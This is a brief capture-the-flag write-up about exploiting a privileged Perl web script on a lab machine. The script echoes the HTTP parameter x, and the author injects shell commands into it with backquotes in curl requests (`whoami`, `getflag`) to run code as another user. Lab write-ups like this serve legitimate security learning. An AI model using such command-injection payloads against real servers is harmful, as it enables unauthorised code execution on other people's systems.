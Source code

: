 There's a file named level04.pl with a SUID for flag04.
It contains a Perl script for a simple http server, that prints the contents of the http variable `x`.
The trick is that it doesn't directly print it, instead it calls `echo` followed by the variable.

- Realize that we can't directly run the script since it needs to be in a web server.
- `find / -user flag04 2>/dev/null` -> oh there's the same script in `/var/www/flag04/`!
- Read the script again and note that there's this comment `# localhost:4747`
- `curl localhost:4747?x=test` -> Ohh
- We can actually call any command by simply use backquotes: ``curl localhost:4747?x='`whoami`'``
- ``curl localhost:4747?x='`getflag`'``

Neat!

